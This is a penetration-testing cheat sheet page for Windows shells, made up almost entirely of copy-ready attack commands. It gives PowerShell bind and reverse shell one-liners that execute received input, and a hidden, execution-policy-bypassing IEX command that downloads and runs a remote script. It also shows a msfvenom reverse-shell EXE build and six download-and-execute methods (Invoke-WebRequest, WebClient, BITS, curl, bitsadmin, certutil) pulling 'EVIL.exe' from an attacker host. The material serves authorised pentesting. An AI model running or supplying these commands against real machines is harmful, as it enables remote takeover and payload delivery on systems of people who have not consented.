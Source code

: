```yaml
---
layout: default
parent: Windows
grand_parent: Pentest Cheatsheets
title: Windows Shells
nav-order: 1
---
```


<details open markdown="block">
  <summary>
    Table of contents
  </summary>
  {: .text-delta }
1. TOC
{:toc}
</details>

**Powershell**
==========

**Bind Shell Single Line**
--------------

<details>
<summary><u>On Target</u></summary>
<p>
BIND_PORT - Port to listen on target for connection in
</p>
</details>


```
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',BIND_PORT);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"  
```

<details>
<summary><u>Locally</u></summary>
<p>
TARGET_IP - IP where you need to connect to listener (actual or proxied)
<br>
BIND_PORT - Port to connect to reach listener
</p>
</details>

```
nc TARGET_IP BIND_PORT
```

**Reverse Shell Single Line**
-----------------------------

<details>
<summary><u>Locally</u></summary>
<p>
REVERSE_PORT - Port you want to open to receive a callback
</p>
</details>

```
nc -nlvp REVERSE_PORT
```

<details>
<summary><u>On Target</u></summary>
<p>
REVERSE_IP - Where target needs to send connection to reach your listener
REVERSE_PORT - Port target needs to send connection to reach listener
</p>
</details>

```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('REVERSE_IP',REVERSE_PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

**Reverse Shell w/ IEX**
---------------------


<details>
<summary><u>Locally</u></summary>
<p>
MY_WEBPORT - Port of web server on your host
<br>
REVERSE_PORT - Port target will be hitting on host to get reverse shell
</p>
</details>

```
python3 -m http.server MY_WEBPORT
nc -nlvp REVERSE_PORT
```

<details>
<summary><u>On Target</u></summary>
<p>
REVERSE_PORT - Port to listen for connection in
<br>
MY_WEBPORT - Port of web server on your host
<br>
MY_SCRIPT - Name of script you are hosting that powershell will execute to get the reverse shell.
</p>
</details>

```
powershell.exe -executionpolicy bypass -w hidden "iex(New-Object System.Net.WebClient).DownloadString('http://REVERSE_IP:MY_WEBPORT/MY_SCRIPT.ps1'); MY_SCRIPT.ps1"
```

**Generic**
===========

**Reverse with download from HTTP**
---------------------

<details>
<summary><u>Locally</u></summary>
<p>
REVERSE_IP - IP target will be connecting to send reverse shell
<br>
REVERSE_PORT - Port host will open to recieve reverse shell
<br>
EVIL - name of EXE
</p>
</details>

```
nc -nlvp REVERSE_PORT
msfvenom -p windows/shell_reverse_tcp LHOST=REVERSE_IP LPORT=REVERSE_PORT –f exe -o EVIL.exe
python3 -m http.server MY_WEBPORT
```

<details>
<summary><u>On Target</u></summary>
<p>
REVERSE_IP - IP target will be connecting to send reverse shell
<br>
REVERSE_PORT - Port host will open to recieve reverse shell
<br>
EVIL - name of EXE
</p>
</details>

```
\\POWERSHELL IWR
Invoke-WebRequest -Uri http://REVERSE_IP:MY_WEBPORT/EVIL.exe -OutFile EVIL.exe
EVIL.exe

\\POWERSHELL Webclient
(New-Object System.Net.WebClient).DownloadFile(http://REVERSE_IP:MY_WEBPORT/EVIL.exe, EVIL.exe)
EVIL.exe

\\POWERSHELL BitsTransfer
Start-BitsTransfer -Source http://REVERSE_IP:MY_WEBPORT/EVIL.exe -Destination EVIL.exe
EVIL.exe

\\WIN10 curl.exe
curl.exe --output EVIL.exe --url http://REVERSE_IP:MY_WEBPORT/EVIL.exe
EVIL.exe

\\WINXP+ bitsadmin
bitsadmin /transfer myDownloadJob /download /priority normal http://REVERSE_IP:MY_WEBPORT/EVIL.exe EVIL.exe
EVIL.exe

\\WINVISTA+ certutil
certutil.exe -urlcache -split -f "http://REVERSE_IP:MY_WEBPORT/EVIL.exe" EVIL.exe
EVIL.exe
```
